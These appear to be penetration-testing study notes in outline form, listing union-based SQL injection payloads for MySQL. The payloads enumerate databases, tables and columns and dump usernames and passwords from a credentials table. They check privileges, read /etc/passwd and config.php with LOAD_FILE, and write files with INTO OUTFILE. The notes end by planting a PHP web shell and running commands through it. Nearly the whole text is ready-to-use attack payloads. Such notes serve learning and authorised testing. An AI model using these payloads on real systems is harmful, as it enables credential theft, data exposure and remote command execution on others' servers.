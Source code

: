 ![alt_text](images/image18.png "image_tooltip")

    * INFORMATION_SCHEMA database
        * SELECT * FROM &lt;databasename>.users
        * SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA>SCHEMATA;
            * cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
    * Dump data from dev database
        * Contains all info of all tables in the database
            * cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
        * Finds all column names to query a table for 
            * cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
        * Form union query of username and password columns from credentials table in dev database 
            * cn' UNION select 1, username, password, 4 from dev.credentials-- -
* Reading files
    * Need to know who we are
        * SELECT USER()
        * Union payload 
            * cn' UNION SELECT 1, user(), 3, 4-- -
    * See if we have super admin privileges
        * SELECT super_priv FROM mysql.user
        * Union payload
            * cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
    * If yes
        * See other privileges 
            * cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
        * Root privs 
            * cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
    * LOAD_FILE
        * SELECT LOAD_FILE('/etc/passwd');
        * Union payload
            * cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
        * Ex
            * cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
* Writing files
    * 3 things required for writing files
        * User with File privilege enabled
        * MySQL global secure_file_priv variable is NOT enabled
        * Write access to the location we want to write to on the back-end server
    * Checking secure_file_priv
        * SQL
            * SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
        * Union Payload
            * cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
    * SELECT INTO OUTFILE
        * SELECT * from users INTO OUTFILE '/tmp/credentials';
    * Writing files through sql injections
        * Sql
            * select 'file written successfully!' into outfile '/var/www/html/proof.txt'
        * Union payload
            * cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
    * Writing a web shell
        * &lt;?php system($_REQUEST[0]); ?>
        * Union
            * cn' union select "",'&lt;?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
            * Then navigate to /shell.php?0=id
                * LINUX COMMANDS 
                    * 0= &lt;LINUX COMMANDS>
